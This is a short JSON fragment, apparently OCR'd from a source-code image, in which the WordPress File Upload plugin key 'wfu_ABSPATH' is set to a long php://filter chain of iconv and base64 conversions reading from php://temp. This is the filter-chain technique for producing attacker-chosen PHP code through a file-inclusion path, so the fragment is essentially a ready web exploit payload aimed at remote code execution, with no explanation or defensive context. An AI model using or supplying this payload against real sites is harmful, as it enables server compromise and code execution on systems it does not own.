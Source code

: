 ```json
    "wfu_ABSPATH":"php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp",
    "wfu_browser_downloadfile_notexist":"Not Exist",
```